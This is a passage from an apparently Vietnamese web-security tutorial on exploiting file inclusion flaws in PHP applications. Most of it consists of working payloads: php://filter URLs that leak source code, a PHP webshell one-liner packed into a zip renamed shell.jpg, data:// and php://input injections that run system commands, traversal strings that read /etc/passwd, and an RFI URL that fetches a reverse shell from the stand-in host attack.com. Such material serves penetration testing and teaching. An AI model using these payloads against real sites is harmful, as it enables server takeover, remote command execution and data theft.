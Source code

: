### c. PHP wrapper:

**Wrapper php://filter**: Cho phép hacker có thể gọi file hệ thống và mã hóa base64 hoặc root13 kết quả trả về. Và cần phải decode để có thể đọc được nội dung. Ví dụ ta muốn đọc nội dung của file index.php : 

`?page=php://filter/read=string.rot13/resource=index.php`

`?page=php://filter/convert.base64-encode/resource=index.php`

`?page=pHp://FilTer/convert.base64-encode/resource=index.php`

**Wrapper zip**: tải lên 1 file zip chứa phpshell và thực thi nó, thường được dùng trong upload ảnh, media,…


- Tạo file php shell : `echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php; ` 
- Zip file php shell vừa tạo : `zip payload.zip payload.php;` 
- Đổi tên : mv payload.zip shell.jpg; 

 
Final payload : `http://example.com/index.php?page=zip://shell.jpg%23payload.php`

**Wrapper data//**:

Đây là một hàm thực thi code từ xa. Ta có thể inject đoạn mã mà mình muốn thực thi vào url.

- `?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>`
- `?page=data://text/plain,<?php phpinfo(); ?>`
- `page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=ls`
    - `// "<?php system($_GET['cmd']);?>"`


**Wrapper php://input**: cũng là một hàm thực thi code từ xa. Nó cho phép khai thác lỗ hổng LFI thông qua một yêu cầu POST và một biến sử dụng phương thức GET

`http://example.com/index.php?page=php://input&cmd=ls`

`POST DATA: <?php system($_GET['cmd']); ?>`

### d. Path and dot truncation:

Trong hầu hết các cài đặt PHP, một tên tệp dài hơn 4096 byte sẽ bị cắt bớt, do đó, bất kỳ ký tự vượt quá giới hạn này sẽ bị loại bỏ.

```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```
### e. RFI (Remote File Inclusion) :

Nếu tồn lại lổ hổng LFI và trong cấu hình của file php.ini mà allow_url_open=On và allow_url_include=On thì có thể thực hiện gọi file từ xa và trong nội dung file này có thể chứa reverse shell
Dấu hiệu: URL có dạng như sau:

`http://example.com/index.php?page=http://attack.com/reverse_shell.php`
